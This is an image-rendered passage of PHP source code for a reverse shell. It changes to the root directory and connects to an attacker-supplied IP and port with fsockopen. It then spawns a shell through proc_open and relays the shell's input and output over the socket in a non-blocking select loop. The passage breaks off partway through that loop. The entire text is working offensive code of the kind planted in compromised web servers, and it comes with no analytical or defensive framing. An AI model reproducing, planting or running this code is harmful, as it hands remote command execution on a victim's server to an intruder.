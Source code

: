 ```php
// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
```